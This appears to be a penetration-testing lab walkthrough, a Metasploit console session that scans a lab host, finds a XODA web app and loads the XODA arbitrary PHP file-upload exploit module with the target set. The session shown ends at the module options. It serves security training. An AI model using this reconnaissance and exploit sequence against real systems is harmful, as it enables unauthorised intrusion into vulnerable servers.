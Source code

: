 Target IP Address: 192.192.182.3

```
root@attackdefense:~# service postgresql start
[ ok ] Starting PostgreSQL 11 database server: main.
root@attackdefense:~# msfconsole -q
msf5 > workspace -a meterpreter
[*] Added workspace: meterpreter
[*] Workspace: meterpreter
msf5 > db_nmap -sV 192.192.182.3
[*] Nmap: Starting Nmap 7.70 ( https://nmap.org ) at 2023-02-09 08:14 UTC
[*] Nmap: Nmap scan report for target-1 (192.192.182.3)
[*] Nmap: Host is up (0.000010s latency).
[*] Nmap: Not shown: 998 closed ports
[*] Nmap: PORT     STATE SERVICE VERSION
[*] Nmap: 80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
[*] Nmap: 3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
[*] Nmap: MAC Address: 02:42:C0:C0:B6:03 (Unknown)
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 6.61 seconds
msf5 > services
Services
========

host           port  proto  name   state  info
----           ----  -----  ----   -----  ----
192.192.182.3  80    tcp    http   open   Apache httpd 2.4.7 (Ubuntu)
192.192.182.3  3306  tcp    mysql  open   MySQL 5.5.47-0ubuntu0.14.04.1
```

```
msf5 > curl http://192.192.182.3
[*] exec: curl http://192.192.182.3

<head>
        <title>XODA</title>
</head>
```

```
msf5 > search XODA

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/webapp/xoda_file_upload  2012-08-21       excellent  Yes    XODA 0.4.5 Arbitrary PHP File Upload Vulnerability
```

```
msf5 > use exploit/unix/webapp/xoda_file_upload
msf5 exploit(unix/webapp/xoda_file_upload) > setg RHOSTS 192.192.182.3
RHOSTS => 192.192.182.3
msf5 exploit(unix/webapp/xoda_file_upload) > show options

Module options (exploit/unix/webapp/xoda_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.192.182.3    yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
```